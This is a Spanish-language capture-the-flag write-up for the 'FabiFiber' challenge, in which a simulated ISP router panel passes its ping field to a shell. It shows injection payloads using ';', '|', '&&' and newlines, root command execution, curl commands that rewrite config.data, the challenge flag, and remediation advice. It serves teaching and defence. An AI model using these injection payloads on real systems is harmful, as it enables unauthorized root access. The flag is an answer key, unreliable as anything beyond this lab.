

# FabiFiber

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** HackLab 2026

**Categoría:** Command Injection

**Puntaje:** 30

**Herramientas:** curl

## Enunciado



FabiFiber es el único proveedor de internet que llega hasta tu casa. Los precios son imposiblemente caros y el servicio es malísimo.

Un día, en un foro, leés que existe una forma de subir la velocidad de internet de FabiFiber. ¿Podrás subir tu velocidad de conexión a 1 Giga?

**Objetivo:** cambiar la velocidad del plan de `30M` a `1 Giga`. Al lograrlo, el panel muestra un banner de felicitaciones con la flag.

## Análisis

El desafío es el panel de administración de un router/gateway de fibra. En *Gateway > At a Glance* se ve que el plan contratado es **30M** y el único formulario interactivo de toda la interfaz es *"Test Your Connection (Ping)"*:

```html
<form method="POST" action="/">
  <input type="text" value="1.1.1.1" name="destination_address" ...>
  <input type="text" value="4" name="count1" maxlength="1" size="2" ...>
  <input type="submit" value="Run Ping Test">
</form>
```

Al enviarlo, el servidor ejecuta un `ping` **real** contra el host indicado y devuelve su salida en un recuadro:

```
PING 1.1.1.1 (1.1.1.1) 56(84) bytes of data.
64 bytes from 1.1.1.1: icmp_seq=1 ttl=64 time=12.350 ms

--- 1.1.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 1ms
```

El patrón —tomar un host del usuario y pasárselo a la utilidad `ping` del sistema— es el caso de libro de **OS Command Injection**: si el valor de `destination_address` se concatena dentro de un comando de shell sin sanitizar, se pueden encadenar comandos propios.

> ### ¿Qué es command injection?
> Ocurre cuando una aplicación construye un comando del sistema operativo intercalando datos del usuario y lo ejecuta a través de una shell (`/bin/sh -c "ping $host"`). La shell interpreta metacaracteres como `;`, `|`, `&&` o el salto de línea como **separadores de comandos**, así que un input como `1.1.1.1; id` se ejecuta como dos comandos: `ping 1.1.1.1` y luego `id`. La raíz del problema es mezclar *código* (el comando) con *datos* (el host) y delegar el parseo a una shell.

### Confirmación de la inyección

Probando distintos separadores en `destination_address`, varios ejecutan un segundo comando y, además, el proceso corre como **root**:

```bash
destination_address=1.1.1.1; id
# -> uid=0(root) gid=0(root) groups=0(root)
```

Cada uno de estos caracteres tiene un significado propio para la shell, y por eso sirve para inyectar:

- `;` — **separador de comandos**: ejecuta uno tras otro sin importar el resultado (`ping ...; id` corre los dos).
- `|` — **pipe**: conecta la salida del primer comando con la entrada del segundo; de paso, ejecuta ambos.
- `&&` — **AND lógico**: ejecuta el segundo comando solo si el primero termina bien (código de salida 0).
- salto de línea (`%0a`, el `\n` url-encodeado) — para la shell, una línea nueva es un comando nuevo.
- `$(...)` y los backticks `` `...` `` — **sustitución de comandos**: ejecutan lo de adentro *primero* y reemplazan esa parte por su salida (`ping $(id)` corre `id` y mete el resultado dentro de la línea del ping). Las dos formas son equivalentes; `$(...)` es la moderna y los backticks la antigua.

Funcionan `;`, `|`, `&&` y el salto de línea. Los `$(...)` y backticks estaban filtrados, pero no hacen falta: con cualquiera de los separadores ya se logra ejecución de comandos. Con RCE como root, el siguiente paso es ubicar de dónde sale el `30M` del panel.

### Dónde vive la velocidad

El entorno es un **shell enjaulado y minimalista** (estilo BusyBox): faltan comandos comunes como `grep` o `head`, que devuelven `sh: grep: not found`. En la práctica significa que no se puede filtrar la salida con las herramientas de siempre, así que conviene leer los archivos directo con `cat`. Un `ls` desde el directorio de trabajo muestra solo dos archivos:

> ### ¿Qué es BusyBox?
> Un único binario que reúne versiones **mínimas** de muchas utilidades Unix (`ls`, `cat`, `sh`, `ping`...): según con qué nombre se lo invoque, se comporta como uno u otro comando. Al ser tan chico, se usa en routers, IoT, contenedores y firmware embebido —justo lo que simula este gateway de fibra—, donde el espacio es escaso. Trae menos comandos (y con menos opciones) que un Linux completo, por eso faltan `grep`/`head` y la salida de `ls` es tan pelada. Sitio oficial: <https://busybox.net/>.

```bash
destination_address=1.1.1.1; ls
# config.data
# user.data
```

Y su contenido revela el mecanismo: el panel renderiza *"Provisioned Plan Speed"* leyendo `config.data`.

```bash
destination_address=1.1.1.1; cat config.data
# SPEED=30M

destination_address=1.1.1.1; cat user.data
# USER_ID=FFID_sRwdf45fPdf346g43
```

No hay que hablar con ninguna base de datos ni API de provisioning: la velocidad es, literalmente, una línea `SPEED=30M` en un archivo que el usuario (ahora root) puede reescribir.

## Explotación

Basta con sobrescribir `config.data` vía la inyección y luego recargar la home para que el panel re-renderice con el nuevo valor:

```bash
BASE="https://chl-...-fabifiber.softwareseguro.com.ar"

# 1) RCE como root: confirmar inyección
curl -sk "$BASE/" \
  --data-urlencode "destination_address=1.1.1.1; id" \
  --data-urlencode "count1=1"
# ... uid=0(root) gid=0(root) groups=0(root)

# 2) Subir la velocidad a 1 Giga reescribiendo el archivo de config
curl -sk "$BASE/" \
  --data-urlencode 'destination_address=1.1.1.1; echo "SPEED=1G" > config.data' \
  --data-urlencode "count1=1"

# 3) Recargar la home: el badge pasa a 1G y aparece el banner con la flag
curl -sk "$BASE/"
```

Script completo en [`./solve.sh`](./solve.sh).

Tras el paso 2, `config.data` queda en `SPEED=1G`, el badge de *Provisioned Plan Speed* muestra **1G** y la página incluye el banner verde (`.flag-banner`) con el resultado:

```
FELICITACIONES
Tu velocidad de internet fue mejorada a 1Gbps!
FLAG: 4c23ba32e2d0bf4ccf2a431b8945aa06
```

## Flag

```
4c23ba32e2d0bf4ccf2a431b8945aa06
```

## 🛡️ Remediación (Developer Perspective)

- **No pasar input del usuario a una shell.** Para un ping, invocar el binario directamente sin shell intermedia y pasar el host como argumento separado (`execve("/bin/ping", ["ping", "-c", "4", host])`, p. ej. `subprocess.run([...], shell=False)`), de modo que `;`, `|` o `\n` se traten como parte del argumento y nunca como separadores de comando.
- **Validar y restringir el input** con una lista blanca estricta: aceptar solo un hostname/IP bien formado (regex de IPv4/IPv6/FQDN) y rechazar cualquier metacaracter de shell. La validación es defensa en profundidad, no el control principal.
- **No gestionar estado sensible (la velocidad del plan) en un archivo reescribible por el proceso web.** El provisioning debe resolverse del lado del operador/ISP, en un sistema separado que el gateway no pueda modificar.
- **Aplicar mínimo privilegio.** El servicio web no debería correr como `root`: con un usuario sin privilegios, aun con la inyección, el impacto se reduce drásticamente.
